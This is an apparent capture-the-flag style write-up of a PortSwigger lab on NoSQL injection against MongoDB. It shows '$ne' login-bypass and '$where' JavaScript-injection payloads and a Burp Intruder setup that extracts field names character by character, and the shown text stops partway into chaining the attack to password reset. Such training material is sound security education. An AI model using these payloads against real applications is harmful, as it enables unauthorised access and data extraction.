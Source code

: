 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/dc5af3c6-623e-490f-b857-cf1b1c2f9eaa)

## Overview :

#### Identifying field names

Because MongoDB handles semi-structured data that doesn't require a fixed schema, you may need to identify valid fields in the collection before you can extract data using JavaScript injection. 

For example, to identify whether the MongoDB database contains a **password** field, you could submit the following payload:
```
https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'
```

Send the payload again for an existing field and for a field that doesn't exist. In this example, you know that the **username field exists**, so you could send the following payloads:
```
admin' && this.username!='
```

```
admin' && this.foo!='
```

> **If the password field exists, you'd expect the response to be identical to the response for the existing field (username)**, but different to the response for the field that doesn't exist (foo). 

#### Exploiting NoSQL operator injection to extract data ?

_Even if the original query doesn't use any operators that enable you to run arbitrary JavaScript, you may be able to inject one of these operators yourself_. You can then use boolean conditions to determine whether the application executes any JavaScript that you inject via `this` operator.

#### Extracting field names

If you have injected an operator that enables you to run JavaScript, you may be able to use the `keys()` method to extract the name of data fields. For example, you could submit the following payload:
```nosql
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

> This inspects the first data field in the user object and returns the first character of the field name. This enables you to extract the field name character by character. 

## Solution :

Try to login with carlos & some random password. The following is hte request being sent.

```http
POST /login HTTP/1.1
Host: 0aed0048046cb4b984524c2d00d400a3.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aed0048046cb4b984524c2d00d400a3.web-security-academy.net/login
Content-Type: application/json
Content-Length: 39
Origin: https://0aed0048046cb4b984524c2d00d400a3.web-security-academy.net
Connection: close
Cookie: session=Io6bfEgzmpTHn5IecCSuPDjHLIcB4DhP
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{
"username":"carlos",
"password":"asfd"
}
```

Modify the request by adding `{"$ne" : "invalid"}` in the password field & see if we can bypass the login of carlos.
```json
{
"username":"carlos",
"password":{"$ne" :"invalid"}
}
```
But we get a response saying that **Account is locked.Please reset the password**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b5bcbf79-75cf-4d87-b263-a43a2dabc518)

#### Injecting $where operator in JSON body -

- Injecting `"$where" : "1"`

**Request -**
```json
{
"username":"carlos",
"password":{"$ne" :"invalid"},
"$where": "1"
}
```
**Response -**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/80d73400-e5a0-4a74-9560-3c40deefdfa7)

Here we get **Account locked** in response.

- Injecting `"$where" : "0"`

**Request -**
```json
{
"username":"carlos",
"password":{"$ne" :"invalid"},
"$where": "0"
}
```

**Response -**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5d5eeff0-4a3e-4c7f-83d1-313c73458187)

Here we get a different response - **Invalid username/password.**

### Extracting available field names -

Send the above request to repeater.

- Replace the `$where` parameter with this `"$where":"Object.keys(this)[0].match('^.{}.*')"` .
- Add 2 payload positions to bruteforce - `"$where":"Object.keys(this)[0].match('^.{§§}§§.*')"`

> 1. `"$where"`: This is a key in a JSON object, and it seems to be used to define a condition or filter.
>
> 2. "`Object.keys(this)[0]"`: This part of the expression is JavaScript code, not a regular expression. It's using the **Object.keys(this)** function to get an array of keys of the current object (this), and then [0] is used to access the first key in that array. So, it's essentially accessing the first key in the current object.


Set Attack Type - Cluster Bomb
Payload 1 - Numbers from 0-20
Payload 2 - Simple list - `a-z`, `A-Z`, `0-9`

Once the attack is over, sort **Payload1** & **Length** to find the **1st key field which is `id`**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c8d30d90-4167-4e8e-bf94-1990e741ab8c)


- Repeat the attack by changing hte position from 1 to 2 in the array - `"$where":"Object.keys(this)[1].match('^.{§§}§§.*')"`

This time we got the **value of 2nd key - `username`**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/53a08b01-c3ee-4244-9967-0ba625bd74f2)

- Repeat the process for **3nd key field**, we got the value of 3rd field as - `password`

### Chaining the exploit -

So where can we use the folllwoing fields which we identified? Possibly the **forgot-password** request.

Send the *GET /forgot-password* request to repeater.
